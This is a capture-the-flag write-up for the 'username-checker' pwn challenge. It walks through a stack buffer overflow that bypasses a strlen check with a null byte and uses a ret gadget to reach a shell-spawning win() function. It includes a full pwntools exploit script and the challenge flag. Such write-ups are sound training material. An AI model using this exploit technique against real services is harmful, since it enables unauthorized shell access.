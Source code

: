 # pwn/username-checker

by WoodMan

## Summary

> Having trouble finding the perfect osu! username?
> Check whether your usernames are valid using `username-checker`!

## Challenge Solving

First, perform reverse engineering to identify the vulnerable location and the exploitation method.

In `main` you can see a call to a function named `check_username()`.

![](images/EdqfwBL5bN4oxCT7x6OagdHPFW6VtiqwwqcFM7xzEzg=.png)

![](images/ZZuyyhfRXKsljotkwbMVK1Zv24r97mo-bACWxMuAkn4=.png)

Next, examine the `check_username()` function to locate the vulnerability.

```c
void check_username(void) {
  char local_48[44];  // Buffer only 44 bytes
  
  printf("please enter a username you want to check: ");
  fgets(local_48, 0x80, stdin);  // But read 128 bytes
  
  sVar2 = strcspn(local_48, "\n");
  local_48[sVar2] = '\0';
  
  sVar2 = strlen(local_48);
  if (sVar2 < 0x10) {  // Check length < 16
    // ... Character check ...
    if (strcmp(local_48, "super_secret_username") == 0) {
      win();  // Point!
    }
  } else {
    puts("username is too long");
  }
}

void win(void) {
  puts("how did you get here?");
  system("/bin/sh");  // Target
}
```

> Buffer size: 44 bytes.
> `fgets` can read: 128 bytes (0x80).
> Difference: 84 bytes can be overwritten!

This is a classic buffer overflow.

```c
fgets(local_48,0x80,stdin);
sVar2 = strcspn(local_48,"\n");
local_48[sVar2] = '\0';
sVar2 = strlen(local_48);
if (sVar2 < 0x10) { // Input need < 16
```

Next, look at the validation: this code checks the input length, so you can't supply an extremely long string directly — but we can use a null byte truncation.

`strlen` stops counting when it encounters `\x00`, so if we place `\x00` at the 16th position, `strlen` will only see the first 15 characters, while `fgets` will already have written the remaining data into the stack.

Next we can find the offset — determine how many bytes of input will trigger the crash and overwrite the return address.

Here I found that 72 characters are enough to overwrite the return address.

![](images/H8OB1M-n3GC01ruzYCz7T2bFGhvWhyQHJP1AfcFnq-A=.png)

The memory address of `win()` can be obtained using `gdb`.

![](images/kErN_ivITNABJKQ13ZzSgiqMBLGDwvEVstJ8TZoY8-4=.png)

Why do we need a `ret_gadget`?

The x86-64 System V ABI requires `rsp` to be 16-byte aligned *before* a `call` instruction executes.

You can obtain a `ret_gadget` using the following command:

&#x20;   `ROPgadget --binary checker | grep ": ret$"`

![](images/AIrrAJKscukLrf8htkaOQcUhUUQPQ4WdsAWbJxM9Yow=.png)

So our payload should be:

`15 chars + \x00 + 56 chars + ret_gadget + win() address`

Full Exploit:

```python
from pwn import *


# r = process('./checker')
r = remote('username-checker.challs.sekai.team', 1337)

win_addr = 0x401236
ret_gadget = 0x40101a

payload = b'a' * 15
payload += b'\x00'
payload += b'B' * (72 - 16)
payload += p64(ret_gadget)
payload += p64(win_addr)

r.sendlineafter(b'check: ', payload)
r.interactive()
```

## Flag

`osu{thats_not_a_val1d_username_:(}`

